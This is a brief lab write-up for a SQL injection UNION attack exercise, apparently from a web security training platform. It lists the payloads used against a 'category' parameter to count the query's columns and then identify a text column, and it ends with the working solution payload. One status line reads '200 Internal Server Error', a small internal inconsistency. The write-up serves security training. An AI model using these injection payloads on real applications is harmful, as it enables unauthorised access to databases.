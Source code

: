 # Lab: SQL injection UNION attack, finding a column containing text
## Description

Found the vulnerable parameter `category` and started the attack it with the following payloads:
```
'+UNION+SELECT+NULL-- 					 <-- 500 Internal Server Error
'+UNION+SELECT+NULL,NULL--				 <-- 500 Internal Server Error
'+UNION+SELECT+NULL,NULL,NULL--			 <-- 200 Internal Server Error
'+UNION+SELECT+NULL,NULL,NULL,NULL-- 	 <-- 500 Internal Server Error
```
Based on above, we've found the number of columns (3) in the SQL query.

Now, we needed to inject a random string value (`gVGtT4`) into the query so its returned on in the HTTP response. For each NULL, I attempted to inject the value until it was returned. 

The second column in the query was a `string` which could be used to inject the random value.

## Solution

`'+UNION+SELECT+NULL,'gVGtT4',NULL--`
